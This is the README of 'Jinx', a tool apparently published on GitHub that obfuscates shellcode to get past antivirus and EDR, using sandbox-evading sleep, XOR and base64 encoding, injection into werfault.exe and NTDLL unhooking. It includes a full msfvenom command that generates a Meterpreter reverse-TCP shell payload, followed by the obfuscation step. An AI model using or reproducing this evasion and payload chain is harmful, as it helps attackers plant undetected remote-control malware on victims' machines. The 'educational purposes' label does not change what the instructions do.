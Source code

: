 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR
[![Python 3.10.4](https://img.shields.io/badge/python-3.10.4-yellow.svg)](https://www.python.org/) [![](https://img.shields.io/badge/C%2B%2B-20-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/)
## Features
 
 - Custom Sleep Function - to bypass sandbox.
- Obfuscation- base64 encoding and xor encryption with randomly generated key.
- Process Injection - injecting the payload to werfault.exe.
- DLL Unhooking - full unhook of NTDLL.DLL.

## Installation and use
Jinx require [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

in this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -lhost eth0 -lport 1337 -f raw -o shellcode
```

next we will use the obfuscator.py tool to obfuscate the shellcode:

```
python obfuscator.py <path to shellcode>/shellcode
```
our shellcode then be obfuscated in the file - obfuscatedPayload.bin with the key - key.bin

